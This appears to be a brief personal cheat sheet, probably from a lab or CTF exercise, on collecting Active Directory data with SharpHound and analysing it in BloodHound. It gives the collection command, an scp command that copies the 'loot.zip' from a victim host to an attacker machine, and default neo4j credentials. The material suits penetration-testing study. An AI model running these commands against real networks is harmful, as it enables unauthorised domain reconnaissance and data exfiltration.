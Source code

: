 ### collecting data


These commands will gather the .json files you need to run Bloodhound

`Sharphound.ps1`
`Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`

transfer loot.zip to attacker machine

`scp -T victim@10.10.18.217:<file location> <attacker directory>`

---

### starting bloodhound

start neo4j first
`neo4j console` 

default creds - `neo4j:neo4j`

start `bloodhound`

you can drag and drop loot.zip

**side note: you can clear previous data under `database info` tab > clear db**

---

